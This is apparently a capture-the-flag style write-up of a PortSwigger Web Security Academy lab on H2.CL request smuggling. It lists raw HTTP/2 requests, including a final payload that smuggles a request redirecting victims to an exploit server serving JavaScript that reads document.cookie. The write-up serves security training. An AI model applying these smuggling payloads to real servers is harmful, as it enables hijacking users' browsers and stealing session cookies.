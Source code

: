 # H2.CL request smuggling

## This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

## To solve the lab, perform a request smuggling attack that causes the victim's browser to load and execute a malicious JavaScript file from the exploit server, calling `alert(document.cookie)`. The victim user accesses the home page every 10 seconds.

---

step 1
intercept homepage to repeater change get to post request

```
POST / HTTP/2
Host: 0aaf005a04efd238802a044b00a2000b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

userid=test
```

![screenshot](./images/images_lab12/lab12_post_request.png)

step 2
test payload

```
POST / HTTP/2
Host: 0aaf005a04efd238802a044b00a2000b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

0

GET /resources HTTP/1.1
Host: 0aaf005a04efd238802a044b00a2000b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

userid=test
```

![screenshot](./images/images_lab12/lab12_test_resource.png)

step 3
add payload into resource

![screenshot](./images/images_lab12/lab12_test_expolit_page.png)

step 4
test payload from resource

```
GET /resources HTTP/2
Host: exploit-0ae5004d04bfd27b80b403cd018000b8.exploit-server.net
Content-Length: 2

```

![screenshot](./images/images_lab12/lab12_test_alert_payload.png)

step 5
final payload

```
POST / HTTP/2
Host: 0aaf005a04efd238802a044b00a2000b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

0

GET /resources HTTP/1.1
Host: exploit-0ae5004d04bfd27b80b403cd018000b8.exploit-server.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

userid=test
```

![screenshot](./images/images_lab12/lab12_test_final_payload.png)

![screenshot](./images/images_lab12/lab12_solved_lab.png)

